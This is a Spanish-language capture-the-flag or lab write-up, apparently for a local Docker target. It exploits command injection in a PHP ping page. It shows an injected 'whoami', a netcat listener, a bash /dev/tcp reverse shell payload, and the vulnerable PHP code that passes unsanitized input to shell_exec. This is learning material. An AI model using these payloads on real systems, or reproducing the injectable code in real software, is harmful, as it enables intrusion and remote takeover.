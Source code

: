 ### Ejecucion del Ataque
Si intentamos realizar una petiicion con el comando **ping**, solo nos reporta esto desde la web
```bash
# Resultados para: 172.17.0.1
```

Ahora podemos aprovecharnos de esto para intentar concatenar un comando y ver que logramos derivarlo a un RCE
```bash
# Comandos para explotación
172.17.0.1; whoami
```

La web nos responde:
```bash
# Resultados para: 172.17.0.1; whoami

www-data
```

### Intrusion
Logramos ejecucion remota de comandos, ya que no existe ninguna sanitizacion por parte de la web, Asi que nos aprovechamos de esto para ganar acceso al objetivo
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
172.17.0.1; bash -c 'exec bash -i &>/dev/tcp/172.17.0.1/443 <&1'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
Una ves ganado acceso al objetivo vemos como es que se estaba gestionando el comando ping con php
```php
<?php

if (isset($_GET['target'])) {
    $target = $_GET['target'];

    echo "<html><head><title>Resultados de Ping</title>";
    echo "<meta charset=\"UTF-8\">"; // Agregamos esta línea para el soporte de acentos
    echo "<style>body { font-family: Arial, sans-serif; background-color: #f0f0f0; padding: 20px;} pre { background-color: #eee; padding: 10px; border-radius: 5px; overflow-x: auto; }</style>";
    echo "</head><body>";
    echo "<h1>Resultados para: " . htmlspecialchars($target) . "</h1>";
    echo "<pre>";

    $command = "ping -c 4 " . $target; // Volvemos a -c 4 para que sea más claro
    
    // Ejecuta el comando y captura su salida
    $output = shell_exec($command);
    
    // Imprime la salida capturada
    echo htmlspecialchars($output); 

    echo "</pre>";
    echo "<p><a href='index.html'>Volver</a></p>";
    echo "</body></html>";
} else {
    header("Location: index.html");
    exit();
```
